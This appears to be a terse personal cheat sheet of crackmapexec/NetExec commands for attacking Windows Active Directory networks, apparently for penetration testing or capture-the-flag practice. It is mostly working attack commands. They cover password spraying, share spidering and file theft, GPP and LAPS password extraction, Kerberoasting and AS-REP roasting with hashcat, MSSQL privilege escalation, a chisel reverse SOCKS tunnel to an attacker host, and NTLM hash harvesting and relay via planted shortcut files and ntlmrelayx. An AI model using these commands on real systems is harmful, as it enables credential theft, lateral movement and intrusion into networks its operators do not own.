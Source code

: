 # crackmapexec
[crackmapexec](https://www.crackmapexec.wiki/)

[crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec)

[netExec](https://github.com/Pennyw0rth/NetExec)

## Basics
- crackmapexec PROTOCOL IPs/24
- crackmapexec PROTOCOL -L/--list-modules = list modules
- crackmapexec PROTOCOL -M NAME --options
  - -o KEY=value
- Logs
  - ~/.cme/logs/
  - /tmp/cme_*

- Lockout
    - with user + pass --users
  - change passwd:
    - smbpasswd -r domain -U user.

## Export Format
- --export $(pwd)/file.txt
- sed -i "s/'/\"/g" passpol.txt = replace ' to "
- cat file.txt | jq
- jq -r '.[]' file.txt
  
## crackmapexec_SMB
- crackmapexec smb $target -u users.txt -p pass.txt 
  - --no-bruteforce
  - --continue-on-success
  - --local-auth: local account, not domain account (DC has none local account db)

- Reconnaissance
  - crackmapexec smb $target
      - u '' -p ''  (Anonymous) 
      - --spider SHARE 
      - --pass-pl 
      - --users 
      - --shares 
      - --groups [NAME]
      - --local-groups
      - --rid-brute [MAX_RID] (fetch user id) 
      - --get-file  C:/Path/to/file
      - --put-file file \\Path\\to\\File 
      - --gen-relay-list relay.txt (signing disable)
      - --loggedon-user
        - --loggedon-users-filter NAME
      - --sessios: with user credentials
      - --computer
      - --disks
      - --wmi QUERY: (wind mang instrumentation)
        - --wmi QUERY --wmi-name-space
        - SELECT Caption,ProcessId FROM Win32_Process WHERE Caption LIKE '%sysmon%'
        - SELECT * FROM MSPower_DeviceEnable" --wmi-namespace "root\WMI
        - [Classes_official](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_wmi?view=powershell-5.1#finding-wmi-classes), [classes](https://wutils.com/wmi/)

- Spider: search inside shares
  - --spider SHARE 
  - --pattern txt
  - --regex . (all files)
  - --content
  - share SHARENAME--get-file FILENAME FILENAME
- -M spider_plus 
  - -o EXCLUDE_DIR==IPC$,print$,NETLOGON,SYSVOL
  - -o READ_ONLY=false = Download
- -M Group Policy
    - gpp_password | gpp_autologin

## crackmapexec_WinRM
- access to WinRM
- execute commands
- Group Managed Service Accounts (gMSA): pass mgn, delegate mgnt
  - cme winrm -X "Get-ADServiceAccount -Filter * -Properties PrincipalsAllowedToRetrieveManagedPassword"

## crackmapexec_LDAP
- FQDN
  - /etc/hosts
- crackmapexec ldap $target  -u ufound.txt -p pfound.txt --continue-on-success --no-bruteforce
- user-desc: all users in AD domain
- LAPS: Local Admin Password Solution
  - management of local account password
  - Check if target can read LAPS
  - -M laps
- Enumeration
  - --users
  - --groups
  - --password-not-required: no policie applied
  - --trusted-for-delegation: trusted for kerberos/impersonate
  - --admin-count: SDProp for user (1)
  - --get-sid
  - --gmsa

## crackmapexec_MSSQL
- --local-auth
 - wind auth mode: default, integrated, 
 - mixed mode: username:pass
 - AD account + Local windows account + SQL account
  - AD:    crackmapexec mssql $target -u ufound.txt -p pfound.txt
  - Local: crackmapexec mssql $target -u ufound.txt -p pfound.txt
  - SQL:   crackmapexec mssql $target -u ufound.txt -p pfound.txt --local-auth
- Queries
  - -q 
    - "SELECT name FROM master.dbo.sysdatabases"
    - "SELECT table_name"
    - "SELECT * from [core_app].[dbo].tbl_users" 
- Commands
  -  -x
- Transfer files
  - --put-file file.txt C:/path/to/target
  - -x "read file"
  - --get-file C:/path/to/target file
- Privelege Escalation
  - -M mssql_priv -o ACTION=enum_priv/privesc/rollback

## RDP
- cme rdp 
  - --nla-screenshot
  - --screentime
  - --screeshot
    - --res (resolutio)

## Kerberoastable
- Extract TGT und NTML hash
- cme ldap --kerberoasting kerberoasting.out
- hashcat -m 13100

## ASREPRoast
- users without kereberos authentication
- AS_REQ
- crackmapexe ldap domain.htb -u USER -p PASS --asreproast asreproast.out

## Proxy
- cme --put-file chisel.exe \\path\\to\file: Upload chisel linux/windows 
  - cme -x "C:\Path\to\chisel.exe client $ATTACKER:8080 R:socks"
  - cme -x "C:\Path\to\chisel.exe server --socks5" <=> chisel client $target:port socks

- cme -x "Stop-Process -Name chisel -Force""
- netstat -tlnp => check connection
- Proxychain: socks5 127.0.0.1 PORT_CHISEL
  - proxychain -q cme ... --shares

## Hashes
- [Farming](https://www.mdsec.co.uk/2021/02/farming-for-red-teams-harvesting-netntlm/)
  - -M slinky -o NAME=share_name SEVER=$attacker
    1. create windows shortcut 
    2. 1 connect to attacker smb server + extract hash
    3. responder / impacket-ntlmrelayx
    4. Remove share
- sign disabled:
  - cme --gen-relay-list relay.txt
  - ntmlrelayx.py -tf relay.txt -smb2support --no-http (proxychains -q impacket-ntlmrelayx -tf relay.txt -smb2support --no-http)
  - cme sbm -H hash_value

- Cleaning
  - -M slinky -o NAME=important CLEANUP=YES
  - -M drop-sc: create SearchConector-ms file
    - URL=\\\\$Attacker\\secret SHARE=name FILENAME=namen CLEANUP=True
